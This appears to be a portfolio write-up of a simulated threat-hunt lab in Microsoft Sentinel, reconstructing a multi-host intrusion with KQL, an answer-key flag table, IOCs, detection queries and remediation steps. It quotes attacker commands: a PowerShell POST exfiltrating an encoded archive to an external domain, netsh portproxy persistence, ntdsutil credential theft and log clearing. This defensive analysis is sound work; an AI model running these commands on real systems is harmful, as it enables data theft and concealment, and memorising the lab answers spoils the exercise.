






# Silent Corridor X Threat Hunt

## Credential Theft, Lateral Movement, Persistence, Data Exfiltration, and Cleanup Investigation

---

## Project Overview

This project documents a Microsoft Sentinel threat hunt investigating a simulated multi-stage intrusion involving compromised VPN access, endpoint discovery, credential access, WMI-based lateral movement, Active Directory database theft, portproxy persistence, sensitive data staging, external exfiltration, reentry, and cleanup activity.

The investigation was performed using KQL against centralized telemetry from:

- VPN logs
- Process events
- File events
- Registry events
- Network events
- Sysmon-style operational telemetry

This report is structured as a SOC analyst case study, showing how I moved from initial indicators to full incident reconstruction, evidence validation, and containment recommendations.

---

## Executive Summary

The investigation identified a multi-host intrusion involving two compromised user accounts: `s.brandt` and `m.richter`.

The attacker used `s.brandt` for VPN and beachhead access, then used `m.richter` credentials for lateral movement. The affected hosts were `WS-ENG04`, `SRV-DC01`, and `SRV-FILES02`.

The attacker extracted `ntds.dit` and `SYSTEM` from the domain controller, staged sensitive engineering data from `C:\Engineering\Avionics\A400M_NavSys`, compressed it into `win_update_kb5034.zip`, encoded it with `certutil.exe`, and exfiltrated it to `cdn-telemetry.cloud-endpoint.net` using PowerShell `Invoke-WebRequest`.

Persistence was established using `netsh interface portproxy` rules. The attacker later returned after two days to clear logs and remove staging artifacts, but centralized telemetry preserved enough evidence to reconstruct the intrusion.

---

## Skills Demonstrated

- Microsoft Sentinel threat hunting
- KQL query development
- VPN and endpoint telemetry correlation
- Windows process, file, registry, and network event analysis
- WMI lateral movement investigation
- Active Directory credential theft analysis
- Portproxy persistence analysis
- Data staging and exfiltration investigation
- Cleanup and anti-forensics analysis
- MITRE ATT&CK mapping
- IOC extraction
- Incident containment and remediation planning
- Executive-level incident reporting

---

## Tools and Data Sources

| Tool / Source | Purpose |
|---|---|
| Microsoft Sentinel | Threat hunting and timeline reconstruction |
| KQL | Querying and correlating telemetry |
| `SilentCorridorX_CL` | Centralized investigation data source |
| FortiGateVPN logs | VPN login, remote IP, and tunnel correlation |
| DeviceProcessEvents | Process execution and command-line analysis |
| DeviceFileEvents | File creation, staging, and artifact tracking |
| DeviceNetworkEvents | Network connection and RDP scope analysis |
| DeviceRegistryEvents | Persistence and configuration change analysis |
| Microsoft-Windows-Sysmon/Operational | Surviving telemetry after Security log clearing |

---

## Repository Structure

```text
silent-corridor-x-threat-hunt/
├── README.md
├── iocs/
│   └── indicators.md
├── queries/
│   ├── 01-initial-access-and-vpn.kql
│   ├── 02-discovery-and-credential-access.kql
│   ├── 03-lateral-movement.kql
│   ├── 04-dc-credential-theft.kql
│   ├── 05-portproxy-persistence.kql
│   ├── 06-file-server-exfiltration.kql
│   └── 07-cleanup-and-reentry.kql
└── screenshots/
    ├── q13-first-pivot.png
    ├── q16-dc-staging-folder.png
    ├── q22-portproxy-command.png
    ├── q25-targeted-directory.png
    ├── q29-exfil-command.png
    └── q37-ciso-brief.png
```

---

## Investigation Scope

### Compromised Accounts

| Account | Role in Attack |
|---|---|
| `s.brandt` | VPN access and beachhead activity |
| `m.richter` | Credential used for lateral movement and remote execution |

### Compromised Hosts

| Host | Role |
|---|---|
| `WS-ENG04` | Beachhead workstation |
| `SRV-DC01` | Domain controller targeted for credential material |
| `SRV-FILES02` | File server targeted for sensitive engineering data |

---

## High-Level Attack Timeline

| Phase | Activity |
|---|---|
| Initial Access | VPN access using `s.brandt` |
| Discovery | System information, privileged group, and credential discovery |
| Credential Access | LSASS check, SAM targeting, saved credential enumeration |
| Lateral Movement | WMI remote execution using `m.richter` |
| Domain Controller Access | `SRV-DC01` targeted |
| Credential Theft | `ntds.dit` and `SYSTEM` staged |
| Persistence | `netsh interface portproxy` rules created |
| File Server Targeting | `SRV-FILES02` accessed |
| Data Staging | Sensitive engineering directory compressed |
| Encoding | Archive encoded with `certutil.exe` |
| Exfiltration | Base64 file POSTed to external domain |
| Reentry | Attacker returned after two days |
| Cleanup | Security logs cleared and staging artifacts removed |

---

# Key Findings

## 1. Initial Access and VPN Activity

The attacker accessed the environment through VPN activity associated with `s.brandt`.

Key findings:

```text
Compromised VPN account: s.brandt
Suspicious remote IP: 185.220.101.34
Tunnel IP used during pivot: 10.1.96.114
```

Suspicious VPN IP set:

```text
45.153.160.88
88.153.72.14
91.234.33.126
185.220.101.34
```

Relevant query:

```text
queries/01-initial-access-and-vpn.kql
```

---

## 2. Discovery and Credential Access

The attacker performed host and credential discovery from the beachhead system.

Observed commands and artifacts:

```text
systeminfo.exe
tasklist /fi "imagename eq lsass.exe"
cmdkey /list
SAM
```

The attacker also queried privileged groups:

```text
Domain Admins
Enterprise Admins
```

Relevant query:

```text
queries/02-discovery-and-credential-access.kql
```

---

## 3. Lateral Movement

The attacker used WMI-based remote execution from `WS-ENG04`.

Key evidence:

```text
WMIC.exe
WmiPrvSE.exe
10.1.96.114/SRV-DC01/m.richter
```

The investigation confirmed that the VPN account and lateral movement account were different:

```text
VPN / beachhead account: s.brandt
Lateral movement account: m.richter
```

Relevant query:

```text
queries/03-lateral-movement.kql
```

---

## 4. Domain Controller Credential Theft

The attacker targeted `SRV-DC01` and staged credential material in a suspicious temporary directory:

```text
C:\Windows\Temp\McAfee_Logs
```

Critical files staged:

```text
ntds.dit
SYSTEM
```

The attacker used:

```text
ntdsutil
```

This indicates Active Directory database theft. Theft of `ntds.dit` and `SYSTEM` represents potential domain-wide credential compromise.

Relevant query:

```text
queries/04-dc-credential-theft.kql
```

---

## 5. Portproxy Persistence

The attacker configured Windows portproxy rules to maintain access and relay traffic.

Beachhead portproxy command:

```text
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8443 connectport=445 connectaddress=SRV-DC01.haldric.local
```

Domain controller portproxy command:

```text
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=10.1.36.210 connectport=8443 protocol=tcp
```

Persistence registry location:

```text
HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp
```

This persistence mechanism can survive credential resets because it is stored as a system-level network forwarding configuration.

Relevant query:

```text
queries/05-portproxy-persistence.kql
```

---

## 6. File Server Data Staging and Exfiltration

The attacker targeted sensitive engineering data on `SRV-FILES02`.

Targeted directory:

```text
C:\Engineering\Avionics\A400M_NavSys
```

The data was compressed into:

```text
win_update_kb5034.zip
```

The archive was encoded into Base64 using:

```text
certutil.exe
```

The encoded file was exfiltrated using PowerShell:

```text
powershell Invoke-WebRequest -Uri "https://cdn-telemetry.cloud-endpoint.net" -Method POST -InFile "C:\Windows\Temp\win_update_kb5034.b64" -UseBasicParsing
```

External destination:

```text
cdn-telemetry.cloud-endpoint.net
```

Relevant query:

```text
queries/06-file-server-exfiltration.kql
```

---

## 7. Reentry and Cleanup

The attacker returned after:

```text
2 days
```

The first cleanup command identified was:

```text
wevtutil cl Security
```

The attacker also removed staging artifacts from `SRV-DC01`:

```text
cmd.exe /c rmdir /s /q C:\Windows\Temp\McAfee_Logs
```

Cleanup analysis showed:

```text
Direct cleanup host: WS-ENG04
Remote cleanup hosts: SRV-DC01, SRV-FILES02
```

Relevant query:

```text
queries/07-cleanup-and-reentry.kql
```

---

# Evidence Screenshots

## First Lateral Pivot



## Domain Controller Staging Folder



## Portproxy Persistence Command



## Targeted Sensitive Directory



## Exfiltration Command



## Final CISO Brief Evidence



---

# Flag Walkthrough Summary

| Question | Finding |
|---|---|
| Q00 | `SilentCorridorX_CL` |
| Q01 | `s.brandt` |
| Q02 | `185.220.101.34` |
| Q03 | `4` |
| Q04 | `45.153.160.88,88.153.72.14,91.234.33.126,185.220.101.34` |
| Q05 | `WS-ENG04` |
| Q06 | `systeminfo.exe/cmd.exe` |
| Q07 | `Domain Admins_Enterprise Admins` |
| Q08 | `SRV-DC01,SRV-FILES02` |
| Q09 | `tasklist /fi "imagename eq lsass.exe"` |
| Q10 | `NO` |
| Q11 | `SAM` |
| Q12 | `cmdkey /list` |
| Q13 | `10.1.96.114/SRV-DC01/m.richter` |
| Q14 | `m.richter` |
| Q15 | `WMIC.exe` |
| Q16 | `C:\Windows\Temp\McAfee_Logs` |
| Q17 | `ntds.dit/m.richter` |
| Q18 | `MsMpEng.exe` |
| Q19 | `ntdsutil` |
| Q20 | `WmiPrvSE.exe/WS-ENG04` |
| Q21 | `SRV-DC01,SRV-FILES02,WS-ENG04` |
| Q22 | `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8443 connectport=445 connectaddress=SRV-DC01.haldric.local` |
| Q23 | `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp` |
| Q24 | `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=10.1.36.210 connectport=8443 protocol=tcp` |
| Q25 | `C:\Engineering\Avionics\A400M_NavSys` |
| Q26 | `win_update_kb5034.zip` |
| Q27 | `Compress-Archive` |
| Q28 | `certutil.exe` |
| Q29 | `powershell Invoke-WebRequest -Uri "https://cdn-telemetry.cloud-endpoint.net" -Method POST -InFile "C:\Windows\Temp\win_update_kb5034.b64" -UseBasicParsing` |
| Q30 | `cdn-telemetry.cloud-endpoint.net` |
| Q31 | `2` |
| Q32 | `wevtutil cl Security` |
| Q33 | `WS-ENG04/SRV-DC01,SRV-FILES02` |
| Q34 | `Microsoft-Windows-Sysmon/Operational` |
| Q35 | `HIGH. Sensitive engineering data from C:\Engineering\Avionics\A400M_NavSys was compressed into win_update_kb5034.zip, encoded with certutil.exe into win_update_kb5034.b64, and POSTed via PowerShell Invoke-WebRequest to cdn-telemetry.cloud-endpoint.net.` |
| Q36 | `cmd.exe /c rmdir /s /q C:\Windows\Temp\McAfee_Logs` |
| Q37 | Executive incident brief completed |

---

# MITRE ATT&CK Mapping

| Technique | Description | Evidence |
|---|---|---|
| Valid Accounts | Use of compromised credentials | `s.brandt`, `m.richter` |
| External Remote Services | VPN access | FortiGateVPN activity |
| System Information Discovery | Host reconnaissance | `systeminfo.exe` |
| Permission Groups Discovery | Admin group enumeration | `Domain Admins`, `Enterprise Admins` |
| Process Discovery | LSASS process check | `tasklist /fi "imagename eq lsass.exe"` |
| Credentials from Password Stores | Saved credential enumeration | `cmdkey /list`, `SAM` |
| Windows Management Instrumentation | Remote process execution | `WMIC.exe /node:` |
| OS Credential Dumping | AD database theft | `ntds.dit`, `SYSTEM`, `ntdsutil` |
| Data Staged | Temporary staging directories | `C:\Windows\Temp\McAfee_Logs` |
| Archive Collected Data | Compressing sensitive files | `Compress-Archive` |
| Data Encoding | Base64 conversion | `certutil.exe -encode` |
| Exfiltration Over Web Service | HTTP POST transfer | `Invoke-WebRequest -Method POST` |
| Proxy / Port Forwarding | Portproxy persistence | `netsh interface portproxy` |
| Indicator Removal | Log clearing and artifact cleanup | `wevtutil cl Security`, `rmdir /s /q` |

---

# Indicators of Compromise

Full IOC list is available in:

```text
iocs/indicators.md
```

## Accounts

```text
s.brandt
m.richter
```

## Hosts

```text
WS-ENG04
SRV-DC01
SRV-FILES02
```

## IP Addresses

```text
45.153.160.88
88.153.72.14
91.234.33.126
185.220.101.34
10.1.96.114
```

## Domain

```text
cdn-telemetry.cloud-endpoint.net
```

## Files and Directories

```text
C:\Windows\Temp\McAfee_Logs
C:\Engineering\Avionics\A400M_NavSys
win_update_kb5034.zip
win_update_kb5034.b64
ntds.dit
SYSTEM
```

## Suspicious Commands

```text
systeminfo.exe
tasklist /fi "imagename eq lsass.exe"
cmdkey /list
wmic /node:
ntdsutil
netsh interface portproxy add v4tov4
Compress-Archive
certutil -encode
powershell Invoke-WebRequest -Method POST
wevtutil cl Security
rmdir /s /q
```

---

# KQL Query Files

| Query File | Purpose |
|---|---|
| `queries/01-initial-access-and-vpn.kql` | Reviews VPN activity, remote IPs, tunnel assignments, and account activity |
| `queries/02-discovery-and-credential-access.kql` | Identifies discovery commands, LSASS checks, SAM targeting, and saved credential enumeration |
| `queries/03-lateral-movement.kql` | Identifies WMI lateral movement, remote targets, and credential use |
| `queries/04-dc-credential-theft.kql` | Identifies `ntds.dit`, `SYSTEM`, `ntdsutil`, and staging activity on the domain controller |
| `queries/05-portproxy-persistence.kql` | Detects `netsh interface portproxy` commands and registry persistence |
| `queries/06-file-server-exfiltration.kql` | Tracks sensitive data compression, encoding, and outbound transfer |
| `queries/07-cleanup-and-reentry.kql` | Identifies reentry, log clearing, remote cleanup, and staging artifact removal |

---

# Detection Opportunities

## Detect WMI Lateral Movement

```kusto
DeviceProcessEvents
| where FileName =~ "wmic.exe"
| where ProcessCommandLine has "/node:"
```

## Detect Portproxy Persistence

```kusto
DeviceProcessEvents
| where ProcessCommandLine has "netsh"
| where ProcessCommandLine has "portproxy"
```

## Detect AD Database Theft

```kusto
DeviceProcessEvents
| where ProcessCommandLine has_any ("ntdsutil", "ntds.dit", "create full")
```

## Detect Suspicious Archive and Encoding

```kusto
DeviceProcessEvents
| where ProcessCommandLine has_any ("Compress-Archive", "certutil -encode")
```

## Detect Exfiltration With PowerShell

```kusto
DeviceProcessEvents
| where ProcessCommandLine has "Invoke-WebRequest"
| where ProcessCommandLine has_any ("-Method POST", "-InFile")
```

## Detect Event Log Clearing

```kusto
DeviceProcessEvents
| where ProcessCommandLine has "wevtutil"
| where ProcessCommandLine has "cl"
```

---

# Containment and Remediation Recommendations

## Immediate Containment

1. Disable or reset credentials for:

```text
s.brandt
m.richter
```

2. Isolate compromised hosts:

```text
WS-ENG04
SRV-DC01
SRV-FILES02
```

3. Block the external exfiltration domain:

```text
cdn-telemetry.cloud-endpoint.net
```

4. Remove unauthorized portproxy rules from:

```text
WS-ENG04
SRV-DC01
```

5. Preserve Sentinel, Sysmon, and endpoint telemetry before reimaging.

---

## Eradication

- Remove attacker-created staging directories.
- Remove unauthorized `netsh interface portproxy` rules.
- Review local administrators and privileged domain groups.
- Rotate credentials potentially exposed through `ntds.dit`.
- Review VPN logs for additional suspicious access.
- Search for additional encoded archives, `.b64` files, and suspicious temp directories.

---

## Recovery

- Rebuild compromised systems if integrity cannot be trusted.
- Restore services from known-good baselines.
- Confirm no remaining portproxy, firewall, scheduled task, service, or registry persistence.
- Monitor for repeated access attempts from known IOCs.
- Increase alerting for WMI remote execution, event log clearing, archive creation, encoding, and outbound POST activity.

---

# Lessons Learned

This investigation reinforced the importance of correlating endpoint, VPN, process, file, registry, and network telemetry across multiple hosts. The most important analytical breakthrough was recognizing that the VPN account, process account, and credential used for lateral movement were not always the same.

The attacker relied heavily on legitimate administrative tools, including `WMIC.exe`, `ntdsutil`, `netsh`, PowerShell, `certutil.exe`, and `wevtutil`. This made behavior-based detection more valuable than simple malware detection.

Centralized telemetry also proved critical. Even though the attacker cleared Windows Security logs, evidence remained available in `Microsoft-Windows-Sysmon/Operational`.

---

# Resume Bullet

```text
Investigated a multi-host intrusion in Microsoft Sentinel using KQL to reconstruct VPN access, WMI lateral movement, Active Directory credential theft, portproxy persistence, sensitive data staging, Base64 encoding, external exfiltration, and cleanup activity across process, file, registry, network, VPN, and Sysmon telemetry.
```

---

# Interview Explanation

```text
In this threat hunt, I investigated a full intrusion chain across three hosts. I started by identifying the compromised account and beachhead host, then correlated FortiGateVPN logs with endpoint process telemetry to reconstruct the initial lateral pivot. From there, I traced WMI-based remote execution, use of stolen credentials, staging of ntds.dit and SYSTEM from the domain controller, and compression of sensitive engineering files from the file server. I also identified persistence through netsh portproxy rules and confirmed exfiltration through a PowerShell Invoke-WebRequest POST to an external domain. The investigation ended with cleanup analysis, including event log clearing and staging directory removal, followed by containment recommendations.
```

---

# Final Incident Brief

```text
s.brandt and m.richter were compromised: s.brandt provided VPN/beachhead access and m.richter was used for lateral movement. The affected hosts were WS-ENG04, SRV-DC01, and SRV-FILES02. The attacker extracted ntds.dit and SYSTEM from the DC and staged sensitive engineering data from C:\Engineering\Avionics\A400M_NavSys, then compressed it into win_update_kb5034.zip, encoded it with certutil.exe, and POSTed it to cdn-telemetry.cloud-endpoint.net. Persistence survived credential resets through netsh interface portproxy rules, including the tunnel on WS-ENG04 and matching configuration on SRV-DC01. Immediately disable s.brandt and m.richter, isolate all three hosts, remove the portproxy rules, block the exfil domain, and preserve Sentinel/EDR evidence for incident response.
```
